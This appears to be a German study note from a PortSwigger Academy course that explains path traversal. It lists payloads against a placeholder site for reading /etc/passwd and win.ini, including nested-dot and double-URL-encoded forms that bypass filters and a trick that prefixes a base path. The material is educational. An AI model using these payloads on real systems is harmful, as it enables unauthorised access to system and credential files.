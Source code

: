 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Was ist Path traversal

Auch bekannt als Directory Traversal. Mit der kann man im schlimmsten Fall Zugriff zu Files außerhalb des Webseiten-Bereichs erreichen und sogar das System oder die komplette App verändern.

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

z. B. eine Seite lädt ein Bild wie folgt.
```html
<img src="/loadImage?filename=218.png">
```

dann könnte man das wie folgt nutzen
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

Manchmal muss man die Pfade auch etwas anpassen. 
z. B.
`....//....//....//etc/passwd`
`etc/passwd`

**Bypassing Sanatization**
Mit URL Encoding kann man den gewünschten Pfad auch wieder encoden um solche sanitizations zu bypassen

`..%252f..%252f..%252fetc/passwd`
oder auch als ganzes
`%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32fetc/passwd`
oder auch komplett inkl. etc/passwd encoden.


Manchmal kann es auch sein, dass ein Mechanismus verlangt, dass es mit einem bestimmten Base Pfad startet. Das sieht dann wie folgt aus.
z. B.
`/var/www/images`
dann setzen wir sowas wie.
`filename=/var/www/images/../../../etc/passwd`

> [!note] Tool-Tipp
> Hackvertor Extension verwenden
![[path_traversal1.PNG]]
